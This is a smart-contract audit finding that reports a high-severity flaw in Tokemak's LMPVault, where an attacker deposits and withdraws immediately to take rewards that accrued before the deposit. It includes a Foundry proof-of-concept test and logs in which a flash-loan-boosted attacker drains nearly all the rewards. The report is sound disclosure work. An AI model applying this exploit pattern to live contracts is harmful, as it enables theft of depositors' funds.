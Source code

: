 # H-04 User can deposit and immediately withdraw to steal rewards

## Severity

High

## Summary

Users deposit tokens to LMPVault to gain rewards. Each user can claim those rewards based on how many shares of the vault he has. The user has also an option to withdraw his funds. This sends his deposited funds + rewards to his address. This mechanism has a vulnerability where the attacker can deposit and withdraw immediately after that which gives him rewards as well based on how much he deposited relative to the vault funds.

## Vulnerability Detail

Users can deposit tokens to LMPVaults. These funds are sent out to other vaults to gain rewards based on strategy. Each user can claim these rewards based on how many shares of the vault he owns. When the user decides to claim his funds it claims rewards as well and sends them to the user with his funds.

There is a vulnerability in this mechanism with inflation. When an attacker deposits, he can withdraw immediately and gain accumulated rewards based on how much he deposited. Take a look at POC below.

### POC

The test is part of **LMPVault-Withdraw.t.sol**.

It is necessary to update **IBaseRewarder.sol** for the purpose of this demo. Paste ```function setTokeLockDuration(uint256 _tokeLockDuration) external;``` to expose the function.

Add ```import "forge-std/console.sol";``` to imports in **LMPVault-Withdraw.t.sol** for logging to work.

Run the test using this command ```forge test --match-contract LMPVaultMintingTests --match-test test_inflationAttack -vv```.

```solidity
function test_inflationAttack() external{
    // Prepare rewards
    _accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
    _lmpVault.rewarder().addToWhitelist(address(this));
    // setTokeLockDuration not present in IBaseRewarder.sol - function setTokeLockDuration(uint256 _tokeLockDuration) external;
    // Lock duration is set to zero for the demonstration that the user can claim rewards with the same shares transferred to another address
    _lmpVault.rewarder().setTokeLockDuration(0);
    _toke.mint(address(this), 1000e18);
    _toke.approve(address(_lmpVault.rewarder()), 1000e18);
    _lmpVault.rewarder().queueNewRewards(1000e18);
    
    // Prepare users
    address user1 = makeAddr("1");
    address user2 = makeAddr("2");
    address attacker = makeAddr("3");

    _asset.mint(user1,1000);
    _asset.mint(user2,1000);
    _asset.mint(attacker, 100 ether);
    _asset.approve(address(_lmpVault), 1000);

    // Deposits
    vm.startPrank(user1);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, user1);
    vm.stopPrank();

    vm.startPrank(user2);
    _asset.approve(address(_lmpVault), 1000);
    _lmpVault.deposit(1000, user2);
    vm.stopPrank();

    // Roll forward
    vm.roll(block.number + 10_000);

    // Attacker deposits and withdraw
    vm.startPrank(attacker);
    uint attackerAmount = 1000;
    // uint attackerAmount = 100 ether;
    _asset.approve(address(_lmpVault), attackerAmount);
    _lmpVault.deposit(attackerAmount, attacker);
    _lmpVault.withdraw(attackerAmount, attacker, attacker);
    vm.stopPrank();

    // User withdraw
    vm.startPrank(user1);
    _lmpVault.withdraw(1000, user1, user1);
    vm.stopPrank();

    vm.startPrank(user2);
    _lmpVault.withdraw(1000, user2, user2);
    vm.stopPrank();

    // Log rewards amounts
    console.log("attacker toke:", _toke.balanceOf(attacker));
    console.log("user1 toke:", _toke.balanceOf(user1));
    console.log("user2 toke:", _toke.balanceOf(user2));
}
```

#### 1st run without attacker (comment out the code)

Comment out the code below **Attacker deposit and withdraw**. Rewards are distributed 50/50 between users one and two.

```text
Logs:
  attacker toke: 0
  user1 toke: 500000000000000000000
  user2 toke: 500000000000000000000
```

#### 2nd run where attacker depositing the same amount as other users

The attacker gains 1/3 of accumulated rewards even though he deposited after the time has passed.

```text
Logs:
  attacker toke: 333333333333333333333
  user1 toke: 333333333333333333333
  user2 toke: 333333333333333333333
```

#### 3rd run with attacker deposit boosted with flash loan (switch attackerAmount value in test to 100 ether)

This case is even worse because the attacker boosted his funds with a flash loan and stole most of the rewards.

```text
Logs:
  attacker toke: 999999999999999980000
  user1 toke: 9999
  user2 toke: 9999
```

## Impact

The attacker can steal accumulated rewards when depositing and withdrawing in a single transaction even though he hasn't had funds in the vault during accumulation. This gets even worse when the attacker uses a flash loan to boost his funds.

## Code Snippet

[https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L448](https://github.com/sherlock-audit/2023-06-tokemak-OndrejJuda/blob/faf3bfa70690927a7d05addb85b360f9e0caa6e8/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L448)

## Tool used

Manual Review

## Recommendation

Make sure the rewards are fairly distributed between users. Create a mechanism to track how much rewards should the user get based on how long he has his funds staked.
